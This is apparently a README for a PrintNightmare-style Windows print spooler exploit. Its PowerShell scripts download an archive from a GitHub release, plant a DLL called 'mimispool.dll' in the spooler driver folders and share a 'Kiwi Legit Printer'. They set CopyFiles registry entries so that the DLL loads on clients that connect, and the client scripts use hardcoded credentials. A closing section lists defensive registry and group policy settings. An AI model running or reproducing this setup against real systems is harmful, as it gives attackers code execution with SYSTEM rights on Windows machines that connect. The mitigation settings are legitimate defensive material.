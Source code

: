 ## PowerShell commands

### Server

#### install
```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName

Invoke-WebRequest -Uri 'https://github.com/FYtD/eardogz/releases/latest/download/eardogz_trunk.zip' -OutFile '.\eardogz_trunk.zip'
Expand-Archive -Path '.\eardogz_trunk.zip' -DestinationPath '.\eardogz_trunk'

Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\eardogz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\eardogz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')

Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared

New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null

```

#### uninstall
```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'

Remove-Printer       -Name $printerName
Start-Sleep -Seconds 2
Remove-PrinterDriver -Name 'Generic / Text Only'

Remove-Item -Force -Path ($drivers  + '\x64\3\mimispool.dll')
Remove-Item -Force -Path ($drivers  + '\W32X86\3\mimispool.dll')
Remove-Item -Force -Path ($system32 + '\mimispool.dll')

```

### Client

#### Any computer with explicit credential to `printnightmare.FYtD.com`
```
$serverName  = 'printnightmare.FYtD.com'
$username    = 'gentilguest'
$password    = 'password'
$printerName = 'Kiwi Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName
$credential = (New-Object System.Management.Automation.PSCredential($username, (ConvertTo-SecureString -AsPlainText -String $password -Force)))

Remove-PSDrive -Force -Name 'KiwiLegitPrintServer' -ErrorAction SilentlyContinue
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue

New-PSDrive -Name 'KiwiLegitPrintServer' -Root ('\\' + $serverName + '\print$') -PSProvider FileSystem -Credential $credential | Out-Null
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
Remove-PSDrive -Force -Name 'KiwiLegitPrintServer'
# mimispool still in spool\drivers

```

#### Computer in domain (single sign on with current user to print server)
```
$serverName  = 'print.lab.local'
$printerName = 'Kiwi Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName

Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
# mimispool still in spool\drivers

```

## Protect
_to adapt to your environment_

**Please, do not set `RestrictDriverInstallationToAdministrators` to `0` without these settings**

### Registry

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"1"="/your really legit servers or invalid entry !/"
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v 1 /t REG_SZ /d "/your really legit servers or invalid entry !/"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1
```

### Registry with real printer servers and allowing non-administrators to install package P&P drivers & printers

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"srv1.fqdn"="srv1.fqdn"
"srv2.fqdn"="srv2.fqdn"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint]
"RestrictDriverInstallationToAdministrators"=dword:00000000
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv1.fqdn" /t REG_SZ /d "srv1.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv2.fqdn" /t REG_SZ /d "srv2.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" /f /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 0
```

### GPO / Local

In `Computer Configuration`, `Administrative Templates`, `Printers`, enable:
- `Only use Package Point and Print`
- `Package Point and Print - Approved servers`

![image](https://user-images.githubusercontent.com/2307945/129240741-b2a0ba14-6858-4c3f-ad07-07fa55efca29.png)

### GPO with real printer servers and allowing non-administrators to install package P&P drivers & printers

Same configuration as previously - _with real printer server names this time_ - but do not forget to add registry key `RestrictDriverInstallationToAdministrators` to `0`

![image](https://user-images.githubusercontent.com/2307945/133833820-a66b3ffd-a3aa-43a2-a1bf-14581a2a7492.png)

